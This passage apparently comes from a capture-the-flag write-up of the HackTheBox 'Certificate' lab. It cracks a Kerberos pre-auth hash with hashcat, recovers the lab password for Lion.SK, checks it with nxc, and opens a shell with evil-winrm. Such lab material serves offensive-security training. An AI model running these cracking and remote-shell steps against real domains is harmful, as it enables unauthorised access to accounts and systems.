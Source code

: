 ```
$krb5pa$18$Lion.SK$CERTIFICATE$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0

```
We need to modify the domain name in the hash file 
```
$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
```

Then we can use `hashcat` to crack that
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate/Krb5RoastParser]
└─$ hashcat hash.txt --show                            
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

19900 | Kerberos 5, etype 18, Pre-Auth | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0:!QAZ2wsx

```

So we successfully get the credit `Lion.SK:!QAZ2wsx`

# Bloodhound by Lion.SK
Also like before we did for `Sara.B`, we can check them of `Lion.SK`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ nxc winrm 10.10.11.71 -u Lion.SK -p '!QAZ2wsx'
WINRM       10.10.11.71     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
WINRM       10.10.11.71     5985   DC01             [+] certificate.htb\Lion.SK:!QAZ2wsx (Pwn3d!)
```

We can use `evil-winrm` to get the shell as `Lion.SK`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ evil-winrm -i 10.10.11.71 -u Lion.SK -p '!QAZ2wsx'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> 

```
